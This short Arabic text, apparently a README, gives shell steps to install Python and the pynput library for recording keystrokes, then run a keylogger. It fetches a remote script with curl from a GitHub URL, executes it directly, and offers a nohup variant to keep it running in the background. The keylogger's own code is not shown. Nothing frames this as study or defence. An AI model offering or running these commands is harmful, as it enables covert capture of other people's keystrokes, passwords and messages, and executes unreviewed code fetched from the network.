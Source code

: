 إذا لم يكن Python مثبتًا، يمكنك تثبيته باستخدام:
sudo apt update
sudo apt install python3

بعد ذلك، تحتاج إلى تثبيت مكتبة pynput التي سنستخدمها لتسجيل ضغطات المفاتيح:
pip3 install pynput

لتشغيل الـkeylogger، استخدم الأمر التالي:
python3 <(curl -s https://raw.githubusercontent.com/osama-mousa/python-scripts/main/keylogger.py)

لتشغيله في الخلفية دون إغلاق الجلسة، يمكنك استخدام أدوات مثل nohup:
nohup python3 <(curl -s https://raw.githubusercontent.com/osama-mousa/python-scripts/main/keylogger.py) &
